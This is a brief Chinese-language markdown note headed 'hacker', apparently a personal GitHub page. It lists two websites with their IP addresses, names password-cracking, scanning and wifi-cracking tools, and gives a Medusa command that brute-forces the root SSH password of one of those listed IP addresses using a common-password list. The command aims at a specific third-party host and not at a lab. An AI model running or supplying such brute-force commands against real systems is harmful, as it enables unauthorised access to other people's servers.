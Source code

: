 # 黑客

- www.semorn.com  47.94.101.42
- jjlin.net 43.242.131.37

## 工具

- nmap 
- john the ripper https://www.openwall.com/john/
- thc-hydra

```
./medusa -u root -h 47.94.101.42 -P 10k-most-common.txt -M ssh -n 22
```
- Aircrack-ng wify破解工具 
- Wireshark 抓包